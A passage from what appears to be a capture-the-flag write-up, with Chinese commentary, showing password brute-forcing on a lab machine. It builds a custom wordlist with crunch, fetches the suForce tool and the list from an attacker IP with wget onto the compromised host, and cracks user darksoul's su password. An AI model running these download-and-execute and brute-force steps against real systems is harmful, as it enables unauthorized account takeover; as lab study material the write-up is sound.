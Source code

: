 ```
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ crunch 3 3 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789?!@#$%^&*()' \ | sed 's/^/Str0ngPassw0d1/' > pass
Crunch will now generate the following amount of data: 1556068 bytes
1 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 389017 
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ cat pass | wc -l                                                               389017      
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ tac pass | sponge pass                                                           
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ cat pass | wc -l      
389017        
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ head -n 10 pass
Str0ngPassw0d1)))
Str0ngPassw0d1))(
Str0ngPassw0d1))*
Str0ngPassw0d1))&
Str0ngPassw0d1))^
Str0ngPassw0d1))%
Str0ngPassw0d1))$
Str0ngPassw0d1))#
Str0ngPassw0d1))@
Str0ngPassw0d1))!
```

```bash
www-data@disguise:/tmp$ wget 192.168.205.206/suForce
www-data@disguise:/tmp$ wget 192.168.205.206/pass
www-data@disguise:/tmp$ chmod +x suForce
www-data@disguise:/tmp$ ./suForce -u darksoul -w pass
            _____                          
 ___ _   _ |  ___|__  _ __ ___ ___   
/ __| | | || |_ / _ \| '__/ __/ _ \ 
\__ \ |_| ||  _| (_) | | | (_|  __/  
|___/\__,_||_|  \___/|_|  \___\___|  
───────────────────────────────────
 code: d4t4s3c     version: v1.0.0
───────────────────────────────────
🎯 Username | darksoul
📖 Wordlist | pass
🔎 Status   | 54031/389017/13%/Str0ngPassw0d1???  # 字典较大，这里我截取了爆破过程
💥 Password | Str0ngPassw0d1???                  # 最终爆破出来的密码
───────────────────────────────────
```

爆破成功，`darksoul` 的密码是 `Str0ngPassw0d1???`
切换用户。
